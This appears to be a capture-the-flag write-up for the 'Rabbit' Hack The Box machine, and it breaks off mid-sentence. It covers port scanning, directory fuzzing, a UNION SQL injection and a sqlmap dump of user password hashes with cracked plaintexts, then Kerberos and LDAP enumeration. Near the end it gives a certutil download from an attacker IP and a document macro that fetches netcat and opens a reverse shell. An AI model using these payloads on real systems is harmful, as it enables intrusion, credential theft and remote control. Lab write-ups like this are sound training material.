


## User flag

```
nmap $ip      
PORT     STATE SERVICE
25/tcp   open  smtp
53/tcp   open  domain
80/tcp   open  http
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
389/tcp  open  ldap
443/tcp  open  https
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
587/tcp  open  submission
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
808/tcp  open  ccproxy-http
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
3306/tcp open  mysql
5985/tcp open  wsman
6001/tcp open  X11:1
6002/tcp open  X11:2
6003/tcp open  X11:3
6004/tcp open  X11:4
6005/tcp open  X11:5
6006/tcp open  X11:6
6007/tcp open  X11:7
8080/tcp open  http-proxy

nmap -p25,53,80,88,135,443,445,464,587,593,636,808,3268,3269,5985,6001,6002,6003,6004-6007,8080 $ip -A -T4 
PORT     STATE SERVICE           VERSION
25/tcp   open  smtp              Microsoft Exchange smtpd
| smtp-commands: Rabbit.htb.local Hello [10.10.14.81], SIZE, PIPELINING, DSN, ENHANCEDSTATUSCODES, X-ANONYMOUSTLS, AUTH NTLM, X-EXPS GSSAPI NTLM, 8BITMIME, BINARYMIME, CHUNKING, XEXCH50, XRDST, XSHADOW
|_ This server supports the following commands: HELO EHLO STARTTLS RCPT DATA RSET MAIL QUIT HELP AUTH BDAT
| smtp-ntlm-info: 
|   Target_Name: HTB
|   NetBIOS_Domain_Name: HTB
|   NetBIOS_Computer_Name: RABBIT
|   DNS_Domain_Name: htb.local
|   DNS_Computer_Name: Rabbit.htb.local
|   DNS_Tree_Name: htb.local
|_  Product_Version: 6.1.7601
53/tcp   open  domain            Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
80/tcp   open  http              Microsoft IIS httpd 7.5
|_http-title: 403 - Forbidden: Access is denied.
|_http-server-header: Microsoft-IIS/7.5
88/tcp   open  kerberos-sec      Microsoft Windows Kerberos (server time: 2025-06-29 12:27:28Z)
135/tcp  open  msrpc             Microsoft Windows RPC
443/tcp  open  ssl/http          Microsoft IIS httpd 7.5
| ssl-cert: Subject: commonName=Rabbit
| Subject Alternative Name: DNS:Rabbit, DNS:Rabbit.htb.local
| Not valid before: 2017-10-24T17:56:42
|_Not valid after:  2022-10-24T17:56:42
|_http-title: IIS7
|_ssl-date: 2025-06-29T12:28:39+00:00; +33m11s from scanner time.
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC4_128_WITH_MD5
|_    SSL2_DES_192_EDE3_CBC_WITH_MD5
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
587/tcp  open  smtp              Microsoft Exchange smtpd
| smtp-ntlm-info: 
|   Target_Name: HTB
|   NetBIOS_Domain_Name: HTB
|   NetBIOS_Computer_Name: RABBIT
|   DNS_Domain_Name: htb.local
|   DNS_Computer_Name: Rabbit.htb.local
|   DNS_Tree_Name: htb.local
|_  Product_Version: 6.1.7601
| smtp-commands: Rabbit.htb.local Hello [10.10.14.81], SIZE 10485760, PIPELINING, DSN, ENHANCEDSTATUSCODES, AUTH GSSAPI NTLM, 8BITMIME, BINARYMIME, CHUNKING
|_ This server supports the following commands: HELO EHLO STARTTLS RCPT DATA RSET MAIL QUIT HELP AUTH BDAT
593/tcp  open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ldapssl?
808/tcp  open  ccproxy-http?
3268/tcp open  ldap              Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp open  globalcatLDAPssl?
5985/tcp open  http              Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
6001/tcp open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
6002/tcp open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
6003/tcp open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
6004/tcp open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
6005/tcp open  msrpc             Microsoft Windows RPC
6006/tcp open  msrpc             Microsoft Windows RPC
6007/tcp open  msrpc             Microsoft Windows RPC
8080/tcp open  http              Apache httpd 2.4.27 ((Win64) PHP/5.6.31)
|_http-server-header: Apache/2.4.27 (Win64) PHP/5.6.31
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Example
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows 7 SP1 or Windows Server 2008 R2 or Windows 8.1 (98%), Microsoft Windows 7 or Windows Server 2008 R2 or Windows 8.1 (97%), Microsoft Windows Server 2012 R2 (96%), Microsoft Windows 7 SP1 (95%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 (95%), Microsoft Windows Windows 7 SP1 (95%), Microsoft Windows Vista Home Premium SP1, Windows 7, or Windows Server 2008 (95%), Microsoft Windows Vista SP1 (95%), Microsoft Windows Vista SP2 or Windows 7 or Windows Server 2008 R2 or Windows 8.1 (94%), Microsoft Windows Server 2012 (93%)
No exact OS matches for host (test conditions non-ideal).

```


```
ffuf -u http://$ip:8080/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -fc 403

```

```
joomla                  [Status: 301, Size: 334, Words: 21, Lines: 10, Duration: 48ms]
complain                [Status: 301, Size: 336, Words: 21, Lines: 10, Duration: 57ms]
```


```
ffuf -u 'http://rabbit.htb:8080/complain/view.php?mod=admin&view=FUZZ' -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt  -H 'Cookie: 8e3390591191591f0578d77b26fb406e=u9lkf732v60ga4fmemkdh8o6l1; PHPSESSID=cmja1fur32gsc7gdlcsv4853d0; 823d4ac52e9d0ce23e7e4b5d187c1c30=bu98pbb0uj1me3t0pc3vsfb3q7'  -mc 200


reports                 [Status: 200, Size: 2963, Words: 177, Lines: 89, Duration: 5917ms]

```


Then it gives us access to: http://rabbit.htb:8080/complain/view.php?mod=admin&view=reports where we can see:



From there you can browse to http://rabbit.htb:8080/complain/view.php?mod=admin&view=repod&id=engineer

We find the id parameter vulnerable to SQL injection. To test it:

```
http://rabbit.htb:8080/complain/view.php?mod=admin&view=repod&id=engineer%20UNION%20SELECT%201,2,3,4,5,6,7%20--%20-
```

Once we know we exploit it:

```
http://rabbit.htb:8080/complain/view.php?mod=admin&view=repod&id=engineer%20UNION%20SELECT%201,table_schema,3,4,5,6,7%20FROM%20information_schema.tables--%20-
```



Now we can dump the databases using sqlmap


```
sqlmap -u "http://rabbit.htb:8080/complain/view.php?mod=admin&view=repod&id=engineer" --cookie="PHPSESSID=cmja1fur32gsc7gdlcsv4853d0" -p id --technique=U --dbms=MySQL --batch --risk=3 --level=5 --dump
```


And we will have:

```


Database: Secret
Table: users
[10 entries]
+--------------------------------------------------+----------+
| Password                                         | Username |
+--------------------------------------------------+----------+
| 33903fbcc0b1046a09edfaa0a65e8f8c                 | Kain     |
| 719da165a626b4cf23b626896c213b84                 | Raziel   |
| b9c2538d92362e0e18e52d0ee9ca0c6f (pussycatdolls) | Ariel    |
| d459f76a5eeeed0eca8ab4476c144ac4                 | Dimitri  |
| 370fc3559c9f0bff80543f2e1151c537                 | Magnus   |
| 13fa8abd10eed98d89fd6fc678afaf94                 | Zephon   |
| d322dc36451587ea2994c84c9d9717a1                 | Turel    |
| 33da7a40473c1637f1a2e142f4925194 (popcorn)       | Dumah    |
| dea56e47f1c62c30b83b70eb281a6c39 (barcelona)     | Malek    |
| a6f30815a43f38ec6de95b9a9d74da37 (santiago)      | Moebius  |
+--------------------------------------------------+----------+

https://crackstation.net/

Kain:doradaybendita
Raziel:kelseylovesbarry
Ariel:pussycatdolls
Dimitri:shaunamaloney
Magnus:xNnWo6272k7x
Zephon:13fa8abd10eed98d89fd6fc678afaf94
Turel:d322dc36451587ea2994c84c9d9717a1
Dumah:popcorn
Malek:barcelona
Moebius:santiago

hashcat -m 0 -a 0 370fc3559c9f0bff80543f2e1151c537 /usr/share/wordlists/rockyou.txt  -r /usr/share/hashcat/rules/best64.rule
Magnus:xNnWo6272k7x
```


We will try different ways to access to other services within the target. Finally we generate the following /etc/krb5.conf file:

```
[libdefaults]
  default_realm = HTB.LOCAL
  dns_lookup_realm = false
  dns_lookup_kdc = false

[realms]
  HTB.LOCAL = {
    kdc = 10.129.203.36
    admin_server = 10.129.203.36
  }

[domain_realm]
  .htb.local = HTB.LOCAL
  htb.local = HTB.LOCAL

```


Then we modify our /etc/hosts and add the line:

```
10.129.203.36 rabbit rabbit.htb.local
```

Now we generate a kerberos ticket:

```bash
kdestroy        # Optional, clears old tickets
kinit ariel@HTB.LOCAL
klist           # Should show a new ticket
```


And we use ldapsearch:

```
ldapsearch -Y GSSAPI -H ldap://10.129.201.233 -b "DC=htb,DC=local"
```

Dump domain users

```
ldapsearch -Y GSSAPI -H ldap://10.129.201.233 -b "DC=htb,DC=local" '(objectClass=user)' sAMAccountName memberOf


sAMAccountName: Administrator
sAMAccountName: Guest
sAMAccountName: RABBIT$
sAMAccountName: krbtgt
sAMAccountName: SM_af653a56215e45ab8
# SystemMailbox{1f05a927-a8d1-4e09-a58c-7d800deed961}, Users, htb.local
sAMAccountName: SM_a6e9d8f5208849f5b
# SystemMailbox{e0dc1c29-89c3-4034-b678-e6c29d823ed9}, Users, htb.local
sAMAccountName: SM_5b048ad74a1b4c27b
# DiscoverySearchMailbox {D919BA05-46A6-415f-80AD-7E09334BB852}, Users, htb.local
sAMAccountName: SM_0823932115094029a
# FederatedEmail.4c1f4d8b-8179-4148-93bf-00a95fa1e042, Users, htb.local

sAMAccountName: Kain
sAMAccountName: Ariel
sAMAccountName: Magnus
sAMAccountName: Raziel
# Raziel, Users, HTB, htb.local
# memberOf: Mailbox Import-Export Management
# Discovery Management
# Organization Management


 dsquery * -filter "(userAccountControl:1.2.840.113556.1.4.803:=8192)" -limit 5 -attr sAMAccountName

```


```
bloodhound-python -u Magnus -p 'xNnWo6272k7x' -k -d HTB.LOCAL -dc rabbit.htb.local -ns 10.129.202.33 -c all


bloodhound-python -u Moebius -p 'santiago' -k -d HTB.LOCAL -dc rabbit.htb.local -ns 10.129.202.33 -c all

```


Kain:33903fbcc0b1046a09edfaa0a65e8f8c
Raziel:719da165a626b4cf23b626896c213b84
Ariel:pussycatdolls
Dimitri:d459f76a5eeeed0eca8ab4476c144ac4
Magnus:xNnWo6272k7x
Zephon:13fa8abd10eed98d89fd6fc678afaf94
Turel:d322dc36451587ea2994c84c9d9717a1
Dumah:popcorn
Malek:barcelona
Moebius:santiago


We access https://rabbit.htb.local/owa/ with credentials:

```
Ariel@htb.local
pussycatdolls


certutil.exe -urlcache -split -f http://10.10.14.81/PowerView.ps1 PowerView.ps1
```

We open the document in Libre Office and observe that there exists a macro already being used. We can modify i


```
Sub OnLoad

	shell("cmd /c certutil -urlcache -split -f http://10.10.14.81/nc64.exe C:\programdata\nc64.exe && C:\programdata\nc64.exe -e cmd 10.10.14.81 443")

End Sub
```


